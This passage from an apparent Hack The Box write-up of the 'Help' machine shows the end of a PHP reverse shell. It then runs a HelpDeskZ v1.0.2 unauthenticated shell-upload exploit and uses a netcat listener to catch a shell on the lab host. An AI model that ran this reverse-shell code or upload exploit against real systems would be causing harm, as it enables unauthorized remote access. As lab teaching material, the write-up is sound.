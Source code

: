 ```php

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```

If we listen on port 8888 and run the exploit, we receive a reverse shell.

```py
root@kali:~/htb/help# python 40300.py http://10.10.10.121/support/uploads/tickets/ php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
```

```bash
root@kali:~# nc -lvp 8888
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.121.
Ncat: Connection from 10.10.10.121:48684.
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 21:22:28 up  1:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
help
$ id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
$

```
